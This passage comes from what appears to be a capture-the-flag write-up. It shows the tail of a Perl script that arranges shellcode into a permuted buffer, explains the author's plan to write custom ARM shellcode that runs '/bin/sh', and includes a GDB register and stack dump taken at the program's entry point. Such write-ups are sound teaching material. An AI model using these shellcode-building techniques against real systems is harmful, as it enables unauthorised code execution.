 ~~~~~~~~
                $out .= chr($i).chr(255);
                ($buff[$i], $buff[255]) = ($buff[255], $buff[$i]);
        }
   }
   my $finalbuffer = join '', map {chr$_} @buff;
   $out .= "aa";
   say "attempted shellcode:";
   say Hexify(join '', @sc);
   say "final buffer:";
   say Hexify($finalbuffer);
   write_file('finalbuffer.bin', $finalbuffer);
   say "output:";
   print Hexify($out);
   write_file('solution', $out);

~~~~~~~~

This code does the same initial pass as before but leaves '.' bytes in place. It then takes a second pass, swapping the "don't care" bytes with whatever unused bytes are at the end of the buffer. This code has the same failure cases as before, plus it would not generate proper code if the shellcode needed all 256 bytes (unlikely) or needed a '.' byte (a condition I looked out for).

**Shellcode**

I started by attempting to modify existing ARM shellcode available from shell-storm, but this quickly proved to be a bad approach. After all, most of the relevant short shellcode boiled down to exec("/bin/sh") and "/bin/sh" has two slashes in it.

It was obvious however that actual shellcode is much more resilient than what I needed. I knew the address my shellcode would be loaded at, so position independence wasn't needed. I also knew it was the entry point of the program. It was then that a teammate recommended figuring out what the state of the system looked like at the beginning of the shellcode.

Not wanting to deal with getting a qemu setup running, I transferred one of the locally-generated ELF files to our team's Raspberry Pi and loaded it up in GDB. Setting a breakpoint at 0x8000 (the entrypoint), the registers and stack looked promising (with awesome context provided by [Peda](https://github.com/longld/peda)):

{language=python}
~~~~~~~~
[---------------------------------------------------------registers---------------------------------------------------------]
SP : 0xbefffbc0 --> 0x1
R0 : 0x0
R1 : 0xbefffce9 ("/home/pi/permut"...)
R2 : 0x0
R3 : 0x0
R4 : 0x0
R5 : 0x0
R6 : 0x0
R7 : 0x0
R8 : 0x0
R9 : 0x0
R10: 0x0
R11: 0x0
R12: 0x0
CPSR: 0x10
[-----------------------------------------------------------stack-----------------------------------------------------------]
00:0000| sp 0xbefffbc0 --> 0x1
01:0004|    0xbefffbc4 --> 0xbefffce9 ("/home/pi/permut"...)
02:0008|    0xbefffbc8 --> 0x0
03:0012|    0xbefffbcc --> 0xbefffcfa ("LESS_TERMCAP_mb"...)
04:0016|    0xbefffbd0 --> 0xbefffd13 ("LESS_TERMCAP_md"...)
05:0020|    0xbefffbd4 --> 0xbefffd31 ("LESS_TERMCAP_me"...)
06:0024|    0xbefffbd8 --> 0xbefffd46 ("SHELL=/bin/bash")
~~~~~~~~